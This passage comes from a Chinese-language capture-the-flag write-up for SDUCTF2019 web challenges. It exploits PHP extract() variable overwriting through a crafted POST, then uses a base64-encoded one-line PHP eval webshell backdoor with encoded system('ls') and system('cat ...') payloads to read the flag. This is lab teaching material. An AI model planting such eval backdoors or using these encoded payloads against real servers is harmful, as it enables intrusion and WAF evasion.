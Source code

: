 得到php源码，百度php extract函数，得知`extract()`有个变量覆盖漏洞

由php源码得知所有变量名，直接出入post参数`pass=&thepassword_123=`

得到flag

![](SDUCTF2019-wp\web19-3.jpg)







### 0x13 一句话木马2

> 题目描述： 在现实世界中，最原始的一句话木马往往会被waf给拦截，所以在使用过程中一般会进行编码或者加密。
> 这里使用最简单的编码，你能成功利用这个后门吗？ 

进入网页查看源码

![](SDUCTF2019-wp\web20.jpg)

百度得知waf是` Web Application Firewall `的简称。

这题应该是要绕过waf，进行获取webshell

由`<!--php @eval(@base64_decode($_POST["cmd"])); -->`和题目shell.php得知：实在shell.php执行一句话木马

```

system('ls');
base64>>>c3lzdGVtKCdscycpOw==
system('cat ffffllllaaaagggg')
base64>>>c3lzdGVtKCdjYXQgZmZmZmxsbGxhYWFhZ2dnZycpOw==

```


